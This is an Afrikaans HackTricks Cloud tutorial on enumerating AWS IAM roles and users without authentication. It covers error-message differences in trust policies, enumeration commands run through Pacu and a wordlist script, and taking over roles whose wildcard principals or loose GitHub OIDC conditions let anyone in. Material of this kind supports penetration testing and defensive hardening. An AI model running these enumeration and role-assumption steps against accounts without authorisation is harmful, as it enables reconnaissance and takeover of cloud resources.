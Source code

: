 # AWS - IAM & STS Ongeauthentiseerde Enum

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Enumereer Rolle & Gebruikersname in 'n rekening

### ~~Neem Rol Brute-Force~~

{% hint style="danger" %}
**Hierdie tegniek werk nie** meer nie, aangesien jy altyd hierdie fout kry, ongeag of die rol bestaan of nie:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Jy kan **toets dit deur**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Die poging om **'n rol aan te neem sonder die nodige toestemmings** aktiveer 'n AWS foutboodskap. Byvoorbeeld, as jy nie gemagtig is nie, kan AWS teruggee:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Hierdie boodskap bevestig die rol se bestaan, maar dui aan dat sy aanneemrolbeleid nie jou aanneming toelaat nie. In teenstelling hiermee, probeer om **'n nie-bestaande rol aan te neem lei tot 'n ander fout**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interessant genoeg is hierdie metode van **onderskeiding tussen bestaande en nie-bestaande rolle** toepaslik selfs oor verskillende AWS-rekeninge. Met 'n geldige AWS-rekening ID en 'n geteikende woordlys, kan 'n mens die rolle in die rekening opnoem sonder om enige inherente beperkings te ondervind.

Jy kan hierdie [script gebruik om potensiële principals op te noem](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume_role_enum) wat hierdie probleem misbruik.

### Vertrou Beleide: Brute-Force Kruisrekening rolle en gebruikers

Om 'n **IAM rol se vertrou beleid te konfigureer of op te dateer, behels dit om te definieer watter AWS hulpbronne of dienste toegelaat word om daardie rol aan te neem** en tydelike geloofsbriewe te verkry. As die gespesifiseerde hulpbron in die beleid **bestaande** is, stoor die vertrou beleid **suksesvol**. As die hulpbron **nie bestaan nie**, word 'n **fout gegenereer**, wat aandui dat 'n ongeldige principal verskaf is.

{% hint style="warning" %}
Let daarop dat jy in daardie hulpbron 'n kruisrekening rol of gebruiker kan spesifiseer:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Dit is 'n beleidsvoorbeeld:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Dit is die **fout** wat jy sal vind as jy 'n **rol wat nie bestaan nie** gebruik. As die rol **bestaan**, sal die beleid **gestoor** word sonder enige foute. (Die fout is vir opdatering, maar dit werk ook wanneer jy skep)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Ons gebruik [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Die `admin` rol wat in die voorbeeld gebruik word, is 'n **rol in jou rekening wat deur pacu geïmpersonifieer moet word** om die beleide te skep wat dit nodig het om die enumerasie te skep

### Privesc

In die geval dat die rol sleg gekonfigureer was en enige iemand toelaat om dit aan te neem:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Die aanvaller kan dit net aanvaar.

## Derdeparty OIDC Federasie

Stel jou voor dat jy daarin slaag om 'n **Github Actions workflow** te lees wat toegang het tot 'n **rol** binne **AWS**.\
Hierdie vertroue mag toegang gee tot 'n rol met die volgende **vertrouensbeleid**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Hierdie vertrouensbeleid mag korrek wees, maar die **gebrek aan meer voorwaardes** behoort jou te laat wantrou.\
Dit is omdat die vorige rol deur **ENIGEEN van Github Actions** aanvaar kan word! Jy moet ook ander dinge soos org naam, repo naam, omgewing, tak in die voorwaardes spesifiseer...

'n Ander potensiële miskonfigurasie is om **'n voorwaarde** soos die volgende by te voeg:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Let daarop dat **wildcard** (\*) voor die **kolon** (:). Jy kan 'n org soos **org\_name1** skep en **die rol aanvaar** vanuit 'n Github Action.

## Verwysings

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
